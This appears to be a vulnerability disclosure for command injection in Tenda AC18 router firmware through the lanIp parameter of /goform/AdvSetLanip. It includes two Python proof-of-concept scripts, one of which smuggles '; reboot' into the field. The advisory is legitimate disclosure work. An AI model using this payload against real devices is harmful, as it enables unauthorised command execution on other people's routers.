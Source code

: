 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a command injection vulnerability in the `/goform/AdvSetLanip` url. The `v17` variable receives the `lanIp` parameter from a POST request and is stored in the configuration item named `lan.ip` through the SetValue function.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_181207.png)

`lan.ip` configuration item can  be retrieved through the GetValue function in the `/goform/telnet` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to command injection.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_181521.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetLanip"
payload = "127.0.0.1; reboot"

data = {"lanIp":payload}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/telnet"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)